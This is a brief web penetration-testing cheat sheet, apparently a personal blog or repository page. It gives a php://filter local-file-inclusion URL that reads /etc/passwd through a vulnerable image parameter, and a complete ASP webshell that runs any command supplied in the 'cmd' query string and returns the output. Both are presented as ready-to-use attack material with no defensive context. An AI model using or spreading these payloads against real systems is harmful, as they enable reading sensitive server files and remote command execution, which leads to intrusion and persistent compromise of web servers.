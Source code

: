 ```yaml
---
title: Web Pentest
author: asphixie
date: 2023-03-10 20:55:00 +0800
categories: [Web]
pin: true
comments: false
---
```


# Web
Read PHP Code with PHP Filter :
```http
https://X.X.X.X/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd
```
## Webshell
ASP : 
```aspx
<%
Response.write("<pre>")
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c " & Request.QueryString("cmd"))
o = cmd.StdOut.Readall()
Response.write(o)
Response.write("</pre>")
%>
```

TODO :
https://github.com/internetwache/GitTools
